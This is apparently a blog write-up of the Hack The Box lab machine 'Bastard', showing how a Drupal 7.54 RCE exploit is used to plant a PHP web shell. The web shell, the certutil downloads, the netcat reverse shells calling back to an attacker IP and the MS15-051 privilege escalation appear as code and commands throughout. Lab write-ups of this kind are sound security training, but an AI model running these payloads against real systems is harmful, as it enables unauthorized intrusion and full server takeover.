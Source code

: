 ```yaml
---
layout: post
title: HTB Bastard Writeup  
subtitle: Medium Box
thumbnail-img: /assets/img/nunchucks.png
tags: [HTB]
---
```

![Bastard](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/bastard/bastard.png)


| Name | Bastard |
| :------ |:--- |
| OS | Windows |
| RELEASE DATE | 18 Mar 2017 |
| DIFFICULTY | Medium |

# Port Scan

```bash
# Nmap 7.92 scan initiated Fri Apr 29 19:20:38 2022 as: nmap -p- -oN scriptScan.nmap -v -sVC 10.10.10.9
Nmap scan report for 10.10.10.9
Host is up (0.078s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

# HTTP 80

Going to the webpage it looks like it is a drupal site

![Bastard](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/bastard/611ccedf9d7c4c019877c578c5fb5e04.png)

From the nmap output, there was a `/robots.txt` page. Taking a look at that file there was a disallow entry for `/CHANGELOG.txt` this probably has version information about the drupal site. 

The changelog indeed does show the version to be "Drupal 7.54, 2017-02-01"

![Bastard](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/bastard/eb19e84b6a0e455ba3e55495b50b26c7.png)

Googling "Drupal 7.54" exploit brings me to [this](https://vk9-sec.com/drupal-7-x-module-services-remote-code-execution/) site explaining that there is an RCE 

It tells us to copy over the exploit using `searchsploit -m php/webapps/41564.php` and make a few changes to the first part of the exploit

```php
error_reporting(E_ALL);

define('QID', 'anything');
define('TYPE_PHP', 'application/vnd.php.serialized');
define('TYPE_JSON', 'application/json');
define('CONTROLLER', 'user');
define('ACTION', 'login');

$url = 'http://10.10.14.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'test.php',
    'data' => '<?php echo"Zonifer Rocks"; ?>'
];
```

Before we run the exploit we need to install `php-curl` by running `sudo apt-get install php-curl`. Once that is installed we can run the exploit `php 41564.php`, and now by going to `http://10.10.10.9/test.php` we can see that the exploit works!

![Bastard](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/bastard/73ecd3e92c7044c79af9d18e7098315b.png)

We can take this a step further and run commands on the server by making a few changes to our exploit 

```php
$url = 'http://10.10.10.9/';               
$endpoint_path = '/rest';                  
$endpoint = 'rest_endpoint';               

$phpCode = <<<'EOD'                        

<?php                                      


 if (isset($_REQUEST['fupload'])) {                                                   
   file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.12:8888/" . $_REQUEST['fupload']));                                                            
};                                         


 if (isset($_REQUEST['fexec'])) {
    echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
};

?>

EOD;

$file = [
    'filename' => 'cmd.php',
    'data' => $phpCode
];

```

Now going to `http://10.10.10.9/cmd.php?fexec=dir` gives us code execution!

![Bastard](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/bastard/96a459ec663b47aab42139ef2bb20880.png)

We can now use a netcat windows executable and get a reverse shell. First, we can locate the binary using `locate`, any one of these should work. I used [this one](https://eternallybored.org/misc/netcat/)

```zsh
┌──(kali㉿kali)-[~/htb/bastard]
└─$ locate nc.exe
/home/kali/tools/netcat-1.11/nc.exe
/opt/SecLists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
```

We will copy it to our working directory `cp /home/kali/tools/netcat-1.11/nc.exe`, and start a python web server to host it `python3 -m http.server 80`. Next, we will use `certutil.exe` and our simple web shell to download the file from kali onto the host. `http://10.10.10.9/cmd.php?fexec=certutil.exe%20-urlcache%20-f%20http://10.10.14.3/nc.exe%20nc.exe`. We can see that it downloaded by looking at our python webserver

```zsh
┌──(kali㉿kali)-[~/htb/bastard]
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.9 - - [29/Apr/2022 23:29:21] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.9 - - [29/Apr/2022 23:29:22] "GET /nc.exe HTTP/1.1" 200 -
```

Next, start up a listener for the shell `nc -lvnp 9001` and execute this in the browser to get a connect back `http://10.10.10.9/cmd.php?fexec=nc.exe%2010.10.14.3%209001%20-e%20cmd.exe`. If we look back at our listener we can see that we now have a shell as `iusr`

```zsh
┌──(kali㉿kali)-[~/htb/bastard]
└─$rlwrap nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.9] 64544
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\iusr
```

# Root

Let's see what kind of windows machine this is by running `systeminfo`. From the snip below it is a windows server 2008 R2 server on a 64-bit architecture.

```
Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-402-3582622-84461
Original Install Date:     18/3/2017, 7:04:46 
System Boot Time:          1/5/2022, 1:30:52 
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
```

There is a good GitHub repo called [SecWiki](https://github.com/SecWiki/windows-kernel-exploits) that has a directory for windows kernel exploits. Looking through the page [MS15-051](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051) looks like it might work on this machine. I will download the zip file and extract `ms15-051x64.exe` to my working directory. 

Next, we need to copy it over to the machine `certutil.exe -urlcache -f http://10.10.14.3/ms15-051x64.exe exploit.exe` (while still having our python web server running). 

And now we can test and see if it works

```
C:\inetpub\drupal-7.54>exploit.exe
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2492 created.
==============================
nt authority\system
```

We can now execute code as nt authority\system! We can use netcat again to get a reverse shell, but this time as system. Make sure to set up a netcat listener to catch the shell `nc -lvnp 9002` and now we can execute `exploit.exe "nc.exe 10.10.14.3 9002 -e cmd.exe"`

Once it is finished we have a shell as system!
```
C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```
